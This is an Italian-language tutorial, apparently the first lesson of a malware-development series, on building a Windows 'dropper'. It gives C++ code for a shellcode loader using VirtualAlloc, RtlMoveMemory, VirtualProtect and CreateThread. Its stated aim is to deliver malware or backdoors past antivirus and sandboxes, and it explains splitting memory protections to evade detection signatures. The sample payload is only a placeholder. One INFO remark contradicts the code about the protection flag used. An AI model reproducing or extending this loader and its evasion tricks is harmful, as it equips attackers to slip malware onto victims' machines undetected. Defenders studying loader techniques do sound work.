 ## Lezione 1: Droppers ##
### Cosa è un Dropper ###
I **droppers** sono dei programmi creati principalmente con l’obiettivo di diffondere un malware, un virus o una backdoor verso un computer bersaglio in modo tale da evitarne, attraverso l’utilizzo di sofisticate tecniche di offuscamento, il rilevamento da parte degli antivirus (e Sandbox). Un dropper sofisticato può essere utilizzato anche per sopravvivere al riavvio della macchina (**persistenza**) o per eseguire una ricognizione approfondita locale e della rete della vittima (***movimento laterale***).

### Dove memorizzare il payload? ###
Ora immergiamoci nello sviluppo del dropper. Il payload, nel caso di un dropper EXE, può essere memorizzato in una delle tre sezioni di un file eseguibile (PE – Portable Executable). La scelta della sezione (sections) da utilizzare varierà drasticamente il codice di implementazione. Diamo uno sguardo alle sezioni disponibili in un file PE:

![image](https://user-images.githubusercontent.com/85390166/180658227-f0e867e9-e381-4ad2-9712-998a9db2d1b1.png)

- .text: E’ necessario inserire il payload in una delle funzioni del codice (es: main / Il nostro caso).
- .data: Il modo più semplice per farlo è inserire il payload in una variabile globale.
- .rsrc: E’ necessario inserire il payload all’interno delle risorse (es: icone, file manifest e immagini).

Ora analizziamo le funzioni WINAPI che il nostro dropper utilizzerà per il rilascio del payload.

### WINAPI ###
Le WINAPI utilizzate nel nostro Dropper sono le seguenti: VirtualAlloc, RtlMoveMemory, VirtualProtect, CreateThread, WaitForSingleObject. Di seguito l’analisi dettagliata delle singole API.
### VirtualAlloc ###
Tale funzione riserverà una regione di pagine (memory buffer) nello spazio degli indirizzi virtuali del processo chiamante per il nostro payload. E’ un modo che ci aiuta a “creare” lo spazio in memoria che conterrà il nostro payload.
Sintassi:
```cpp
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```
### RtlMoveMemory ###
E’ una API che ci permette di copiare un blocco di memoria sorgente in un blocco di memoria di destinazione. Nel nostro caso andremo a copiare  il payload nel nostro nuovo buffer creato.
```cpp
VOID RtlMoveMemory(
  _Out_       VOID UNALIGNED *Destination,
  _In_  const VOID UNALIGNED *Source,
  _In_        SIZE_T         Length
);
```
### VirtualProtect ###
Una funzione fondamentale per il cambio delle protezioni delle regioni di memoria degli indirizzi virtuali. Lo utilizzeremo per rendere eseguibile il nostro nuovo buffer creato.
```cpp
BOOL VirtualProtect(
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);
```
### CreateThread ###
Una funzione semplice da comprendere. Crea un Thread del payload da eseguire nello spazio degli indirizzi virtuali del processo chiamante.
```cpp
HANDLE CreateThread(
  [in, optional]  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  [in]            SIZE_T                  dwStackSize,
  [in]            LPTHREAD_START_ROUTINE  lpStartAddress,
  [in, optional]  __drv_aliasesMem LPVOID lpParameter,
  [in]            DWORD                   dwCreationFlags,
  [out, optional] LPDWORD                 lpThreadId
);
```
### WaitForSingleObject ###
Attende finché l’oggetto specificato non si trova nello stato segnalato o finché non scade l’intervallo di time-out. Verrà utilizzato per verificare che non vi siano errori con il cambio di protezione apportato da VirtualProtect e che quindi il Thread del payload può essere creato.
```cpp
DWORD WaitForSingleObject(
  [in] HANDLE hHandle,
  [in] DWORD  dwMilliseconds
);
```
### Aggiungiamo il nostro payload ##
Per prima cosa abbiamo la necessità di aggiunge al nostro dropper il codice del payload. Per far ciò ci basterà dichiarare un char[] che conterrà l’esadecimale dell’intero codice del nostro payload.
**NB:** In questa sezione, attraverso l’uso di tecniche di offuscamento, è possibile codificare il codice del payload per renderlo FUD (fully undetectable). Affronteremo questo argomento nei prossimi episodi.
Implementiamo la procedura:
```cpp
void * exec_mem;	
DWORD flOldProtect = 0;
unsigned char payload[] = { // Qui andrà posizionato il nostro codice.
	0x90,		// NOP
	0x90,		// NOP
	0xcc,		// INT3
	0xc3		// RET
};
unsigned int dwSize = sizeof(payload) / sizeof(char); // Calcoliamo le dimensioni del nostro payload (verrà utilizzato successivamente per l’allocazione della memoria necessaria a contenere il nostro payload).
### Allocazione del memory buffer ###
Ora bisogna allocare un memory buffer in modo da “trasferire” in memoria il nostro payload da avviare successivamente.
Implementiamo la procedura:
// Allocazione della memoria necessaria a contenere il payload (memory buffer)
exec_mem = VirtualAlloc(0, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
// Copia del payload nel nuovo buffer
RtlMoveMemory(exec_mem, payload, dwSize);
```
### Avvio del payload ###
Bene, siamo giunti al termine di questo episodio. Ora non ci resta che avviare il payload grazie all’uso di un Thread. 
Implementiamo la procedura:
```cpp
// Make new buffer as executable
BOOL bStatus = VirtualProtect(exec_mem, dwSize, PAGE_EXECUTE_READ, &flOldProtect);
// If all good, run the payload
if ( bStatus != 0 ) {
HANDLE th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
	WaitForSingleObject(th, -1);
}
```
**INFO:** Leggendo il sorgente di questa sezione, ci si potrebbe chiedere “perché la protezione di memoria PAGE_EXECUTE_READWRITE è stata impostata nella funzione VirtualProtect e non in VirtualAlloc assieme a MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE?”.
La ragione è semplice: Alcuni analisti (o gli engine degli AV), poiché è abbastanza insolito che il processo abbia necessità di avere una zona di memoria che sia leggibile, scrivibile ed eseguibile allo stesso tempo, potrebbero identificare come malevola tale “firma”. Quindi per aggirare il rilevamento suddividiamo il processo di allocazione di memoria in due fasi distinte: allocamento come leggibile e scrivibile e poi, infine, come eseguibile.
Nei prossimi episodi proveremo a inserire un payload nella sezione rsrc.
